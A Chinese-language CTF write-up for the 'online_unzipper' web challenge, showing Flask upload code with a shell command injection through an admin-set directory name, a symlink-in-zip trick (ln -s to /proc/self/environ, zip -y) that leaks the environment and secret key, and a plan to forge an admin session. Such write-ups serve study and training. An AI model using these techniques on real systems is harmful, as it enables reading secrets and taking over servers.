 N1CTF Junior 3rd 2/2(Jeopardy) 复现

#### online_unzipper

```
online_unzipper
```

核心代码

```python
@app.route("/upload", methods=["GET", "POST"])
def upload():
    if "username" not in session:
        return redirect(url_for("login"))

    if request.method == "POST":
        file = request.files["file"]
        if not file:
            return "未选择文件"

        role = session["role"]

        if role == "admin":
            dirname = request.form.get("dirname") or str(uuid.uuid4())
        else:
            dirname = str(uuid.uuid4())

        target_dir = os.path.join(UPLOAD_FOLDER, dirname)
        os.makedirs(target_dir, exist_ok=True)

        zip_path = os.path.join(target_dir, "upload.zip")
        file.save(zip_path)

        try:
            os.system(f"unzip -o {zip_path} -d {target_dir}")
        except:
            return "解压失败，请检查文件格式"

        os.remove(zip_path)
        return f"解压完成！<br>下载地址: <a href='{url_for('download', folder=dirname)}'>{request.host_url}download/{dirname}</a>"

    return render_template("upload.html")
```

发现admin可以直接将保存名设置为文件名，这里可以导致文件名的命令注入。但是注册后默认是user，考虑篡改session来改成admin。

```python
app.secret_key = os.environ.get("FLASK_SECRET_KEY", "test_key")
```

想要篡改session要先获取```flask secret_key```，发现可以从环境变量```FLASK_SECRET_KEY```中获取，故可以找方法尝试访问```/proc/self/environ```

通过学习后发现可以构造带有指向```/proc/self/environ```的符号链接文件并压缩上传

```shell
ln -s -T /proc/self/environ my_link_file
zip -y my_archive.zip my_link_file
```

上传```my_archive.zip```后可以下载```my_link_file```，读取到了环境变量

```tex
HOSTNAME=79556ae2b6cf HOME=/root GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D PYTHON_SHA256=8fb5f9fbc7609fa822cb31549884575db7fd9657cbffb89510b5d7975963a83a FLASK_APP=app.py FLASK_RUN_HOST=0.0.0.0 PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin LANG=C.UTF-8 FLASK_SECRET_KEY=test PYTHON_VERSION=3.11.13 PWD=/app FLAG= 
```

得到```FLASK_SECRET_KEY=test```，现在可以构造session来修改成admin权限
